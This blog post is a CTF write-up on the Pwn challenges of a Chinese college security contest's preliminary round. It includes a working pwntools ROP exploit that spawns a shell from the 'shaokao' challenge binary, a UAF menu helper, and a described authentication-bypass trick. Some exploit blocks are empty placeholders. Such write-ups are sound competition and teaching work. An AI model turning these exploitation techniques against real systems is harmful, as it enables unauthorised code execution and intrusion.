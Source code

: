 ```yaml
---
title: 「Pwn」The 16th National College Student Information Security Contest CISCN Preliminary Writeup WP Reproduction

tags: ["CTF", "Pwn", "writeup", "wp"]

authors: [nova]
---
```


Couldn't make it to Singapore for the finals, so no time for that, just taking a look at the preliminary round.

It's hard to evaluate the Pwn questions in the preliminary round. The Pwn parts are all quite simple, but they throw in RE/WEB/MISC wrappers, and even after two days, pwn3 still couldn't be solved, so I didn't feel like looking into it further.

<!--truncate-->

## shaokao

A sign-in question. Use negative overflow to increase money and stack overflow to write ROP chains.

```python
from pwn import *

context.log_level = 'DEBUG'
context.os = 'linux'
context.arch = 'amd64'
context.terminal = 'wt.exe bash -c'.split(' ')

sh = process('./shaokao')
elf = ELF('./shaokao')

pop_rdi_ret = 0x40264f
pop_rsi_ret = 0x40a67e
pop_rax_ret = 0x458827
pop_rdx_rbx_ret = 0x4a404b
syscall_ret = 0x4230a6
name = elf.sym['name']

sh.sendlineafter('What\'s next?\n'.encode(), b'1\n1\n-100000\n4')
gdb.attach(sh, 'b *0x401F8D')
pause(4)
sh.sendlineafter('What\'s next?\n'.encode(), b'5\n' + b'/bin/sh'.ljust(0x28, b'\x00') +
                 p64(pop_rdi_ret) + p64(name) + p64(pop_rax_ret) + p64(59) +
                 p64(pop_rsi_ret) + p64(0) + p64(pop_rdx_rbx_ret) + p64(0)*2 + p64(syscall_ret))
sh.interactive()
```

## talkbot

Protobuf protocol question. The author sneakily changed 'protobuf' to 'BINARYBF' in the strings.

![image-20230528220826344](https://oss.nova.gal/img/image-20230528220826344.png)

However, by searching later, it is still possible to find that it is 'protobuf'. Luckily, the protocol fields were directly written in the fields, and it was possible to guess the types based on the names.

![image-20230528221007371](https://oss.nova.gal/img/image-20230528221007371.png)

It's unclear where the change was made, but upon testing it was found that actionid, msgidx, msgsize all need to be multiplied by 2 to get normal values.

Since writing protobuf is too complicated, a [pwnutils](https://github.com/MuelNova/PwnUtils) script was created to simplify the process.

Menu:

```python
def new(idx: int, size: int, content: bytes):
    sh.sendafter(b'now: \n', pb_serialize([1*2, idx*2, size*2, content]))

def edit(idx: int, content: bytes):
    sh.sendafter(b'now: \n', pb_serialize([2*2, idx*2, 2, content]))

def show(idx: int):
    sh.sendafter(b'now: \n', pb_serialize([3*2, idx*2, 2, b'A']))

def delete(idx: int):
    sh.sendafter(b'now: \n', pb_serialize([4*2, idx*2, 2, b'A']))
```

The vulnerability lies in not setting the pointer to 0 in `del`, causing a UAF vulnerability. By exploiting tcache and UAF, it's a simple challenge. There is also a hidden vulnerability in the add function, which can be exploited without UAF.

Exploit:

```python
# Exploit code
```

## PDC2.0

Does it really belong to the Pwn category? For version 1.0, see [Gamma Experimental Field | PDC Wall Facing Plan Management System - From the Perspective of the Question Creator | CTF Navigation (ctfiot.com)](https://www.ctfiot.com/100552.html)

Received attachments include app.py, cmdHistory, a traffic package, and the aiortc library.

By analyzing aiortc through diff, it is revealed that it changed ECC to RSA. The reason for this change can be found in the link provided above.

By examining the traffic package and searching for the 'tell2me' route, a token for 'weisi' can be found. His sk is known to us, as seen in app.py.

![image-20230528222953911](https://oss.nova.gal/img/image-20230528222953911.png)

By observing app.py, it is possible to access the download route, including an editDatabase endpoint.

![image-20230528222602012](https://oss.nova.gal/img/image-20230528222602012.png)

Database editing requires the sk of 'luoji', which is not directly obtained from pk2sk[pk]. Instead, a loop check is implemented. This sets the stage for a clever exploitation: if submitToken[45:] is 'luojiweisi', the sk becomes pk2sk[weisi] which is known, thus passing the '[45:50] == luoji' check. Utilizing this, it's possible to generate an HMAC-like value, bypass the authentication, and potentially access secret data.

Additionally, by examining 'cmdHistory', the location of 'ssl.log' is revealed. While it can be used to download and decrypt DTLS traffic, it requires further investigation which was hindered by issues with Wireshark.

Furthermore, using aiortc to communicate with the server requires RTC, which could not be established due to connectivity issues.

Moving on to the Pwn part, it seems straightforward.

![image-20230528223623912](https://oss.nova.gal/img/image-20230528223623912.png)

A memcpy operation overflows by 0x18 bytes from the return address, setting up a rop chain to call pop rdi;ret [fake rdi]; addr_of_sqlite3_exec. Fake rdi should be placed on the input buffer to construct a statement for execution.

Without a runtime environment, the challenge could not be solved.

## funcanary

Characterized by forking, where the canary remains constant.

Without a remote environment and local testing failing, it was challenging to identify the issue, which may require additional multithreaded debugging.

Code snippet:

```python
# Exploit script
```

## shellwego

A Go challenge, where reverse engineering outweighs Pwn aspects.

Restoring the symbol table using [go_parser](https://github.com/0xjiayu/go_parser), was a bit tricky due to its lack of support for go1.2x versions. Adjusting the magic number allowed it to run and recover the symbol table (though type recovery was unsuccessful).

Reading the pseudocode was essential since details were inadvertently removed. It was carefully disassembled line by line.

The privilege escalation involves an interesting authentication logic, which utilizes RC4 and base64 encryption to validate a passphrase provided in the challenge.

The challenge includes instructions for privilege escalation using commands such as `ls, cat, echo, chdir`, which presents further reverse engineering complications. By setting a carefully crafted layout, it was possible to control the return address and launch a ROP chain.

Overall, the difficulty level was moderate, with the primary challenge lying in the intricate reverse engineering process.

## pwn6

A Blind PWN challenge without a remote environment and a lost path for exploitation.

## Final Thoughts

The Pwn challenges in the national finals were categorized as easy, medium, and hard, with a clear distinction. The finals Pwn challenges may present more complexity this year, but fortunately, I wasn't the one competing. 😄

The Pwn parts of the national competition weren't very difficult this time, while other parts posed greater challenges, making for an interesting competition.

<!-- AI -->
